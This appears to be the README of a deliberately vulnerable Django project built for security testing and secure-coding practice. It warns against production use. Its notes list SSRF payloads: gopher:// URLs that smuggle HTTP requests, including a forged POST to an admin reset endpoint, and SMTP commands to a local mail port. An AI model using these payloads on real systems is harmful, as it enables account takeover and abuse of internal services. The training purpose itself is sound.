 # insecure-django

This is a deliberately written insecure implementation of django to promote Security Testing and Secure Coding Practice. Not an attempt to demonstrate anything in the django core.

# Warning: Critical Security Vulnerabilities are in this project. Refer this work with care. Do not use in production.


### Set up

1. Install Python3, Django
2. `pip install -r requirements.txt`

Notes:
Ref:
http://localhost:8000/xploitSSRF/api

gopher://localhost:8081/_GET%20/1.txt%20HTTP/1.1%0a


gopher://localhost:8000/_POST%20/xploitSSRF/api/admin/reset%20HTTP/1.1%0aContent-Type:application/x-www-form-urlencoded%0aContent-Length:9%0a%0auser_id=admin%0a


gopher://localhost:25/_HELO%20kali.localdomain%0AMAIL%20FROM:%20<kali@kali.localdomain>%0ARCPT%20To:%20<kali@kali.localdomain>%0ADATA%0ASubject:%20Test%0Awoot%0A.%0A

gopher://localhost:25/_HELO%20kali.localdomain%0aMAIL%20FROM:%20<kali@kali.localdomain>%0ARCPT%20To:%20<kali@kali.localdomain>%0aSubject:%20Test%0awoot%0a.%0a


HELO%20kali.localdomain%0AMAIL%20FROM:%20<kali@kali.localdomain>%0ARCPT%20To:%20<kali@kali.localdomain>%0ADATA%0ASubject:%20Test%0Awoot%0A.%0A